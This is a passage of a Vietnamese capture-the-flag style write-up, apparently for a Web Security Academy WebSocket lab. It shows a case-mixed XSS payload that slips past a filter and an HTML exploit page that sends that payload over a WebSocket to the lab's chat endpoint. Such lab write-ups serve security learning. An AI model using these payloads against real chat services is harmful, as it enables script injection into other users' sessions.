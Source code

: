 ```javascript
<img src=1 oNeRrOr=alert`1`>
```

![image](https://hackmd.io/_uploads/SkPDC7tqT.png)

![image](https://hackmd.io/_uploads/SJPfRQK96.png)

thành công và ta solve được challenge.

![image](https://hackmd.io/_uploads/rkhz0mFc6.png)

mình đã viết lại script khai thác

```javascript
<!DOCTYPE html>
<html lang="en">
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
   <title>Document</title>
 </head>
 <body>
   <script>
     const socket = new WebSocket(
       "wss://0a3200b404b9c5af82960bfd002a00ac.web-security-academy.net/chat"
     );

     socket.addEventListener("open", (event) => {
       console.log("Đã kết nối thành công");

       // Gửi dữ liệu
       const data = {
         message: "<img src=1 oNeRrOr=alert`1`>",
       };

       socket.send(JSON.stringify(data));
     });

     socket.addEventListener("message", (event) => {
       console.log(`Nhận dữ liệu từ server: ${event.data}`);
     });

     socket.addEventListener("close", (event) => {
       console.log("Kết nối đã đóng");
     });
   </script>
 </body>
</html>
```

![image](https://hackmd.io/_uploads/BJQUXEt9a.png)

![image](https://hackmd.io/_uploads/ByvYmNK56.png)

 <img  src="https://3198551054-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FVvHHLY2mrxd5y4e2vVYL%2Fuploads%2FF8DJirSFlv1Un7WBmtvu%2Fcomplete.gif?alt=media&token=045fd197-4004-49f4-a8ed-ee28e197008f">
